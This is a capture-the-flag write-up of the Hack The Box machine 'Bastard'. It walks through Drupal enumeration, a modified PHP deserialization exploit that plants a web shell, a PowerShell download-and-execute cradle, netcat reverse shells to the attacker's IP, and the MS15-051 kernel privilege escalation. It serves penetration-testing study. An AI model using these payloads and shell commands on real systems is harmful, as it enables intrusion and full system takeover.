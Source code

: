 # Bastard

This is the write-up for the box Bastard that got retired at the 16th September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.9    bastard.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bastard.nmap 10.10.10.9
```

```markdown
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

As the web server is IIS version 7.5 the OS of the box is most likely Windows Sever 2008 R2 server.

On the web page we see a _Drupal_ installation.
One of the default files of Drupal is the _/CHANGELOG.txt_ where we can find out which version this is. The version is 7.54 which was released on  February 1st 2017.

We can look for exploits for this:
```markdown
searchsploit drupal 7
```

The exploit we want to use is called _"Drupal 7.x Module Services - Remote Code Execution"_ which is a **PHP serialization** vulnerability.
We will change some lines in the code to get command execution and file upload and set the variables correctly:
```php
# (...)
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
if (isset($_REQUEST['upload'])) {
        file_put_contents($_REQUEST['upload'], file_get_contents("http://10.10.14.23:8000/" . $_REQUEST['upload']));
};
if (isset($_REQUEST['exec'])) {
        echo "<pre>" . shell_exec($_REQUEST['exec']) . "</pre>";
};
?>
EOD;

$file = [
    'filename' => 'exploit.php',
    'data' => $phpCode
];
# (...)
```

Run the exploit:
```markdown
php5 drupal_exploit.php
```
```markdown
# Output
#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9//exploit.php
```

Now when we browse to the this page we can test if we have command execution:
```markdown
http://10.10.10.9/exploit.php?exec=whoami
```

It outputs that we are _NT Authority\iusr_.

Now we either have command execution with this method or we can use the token in the file _session.json_ and replace our cookies with these values and we are logged in as Admin:

![Admin page](https://kyuu-ji.github.io/htb-write-up/bastard/bastard_adminpage.png)

### Command Execution on HTTP

We should run any enumeration script on this box to get an attack surface. I will run _PowerUP.ps1_ from the **Powersploit Framework** first.

Download the file from your local machine and run it:
```markdown
.../exploit.php?exec=echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/PowerUp.ps1') | powershell -noprofile -
```

Unfortunately there is no interesting information in this output so lets run another enumeration script. I will run [Sherlock](https://github.com/rasta-mouse/Sherlock) now and get some suggestions for vulnerabilities to exploit.

We want to upload _Netcat for Windows_ on this box and execute it to get a reverse shell:
```markdown
/exploit.php?upload=nc64.exe&exec=nc64.exe -e cmd 10.10.14.23 9001
```

After running this our listener on port 9001 starts and we get a reverse shell.

## Privilege Escalation

The enumeration script suggested us some exploits we can use and I will use **MS15-051 - Win32k LPE vulnerability** also known as _CVE-2015-1701_.
To use this exploit we copy the [Proof-of-Concept script from GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) to our local machine and upload and execute it on the box.
```markdown
/exploit.php?upload=ms15-051x64.exe&exec=ms15-051x64.exe whoami
```

This outputs that we are _NT Authority\SYSTEM_ and thus the exploit works and we can start a shell with this.
```markdown
/exploit.php?upload=ms15-051x64.exe&exec=ms15-051x64.exe "nc64.exe -e cmd 10.10.14.23 9002"
```

After running this our listener on port 9002 starts and we get a reverse shell with the user _NT Authority\SYSTEM_ and the box is done!
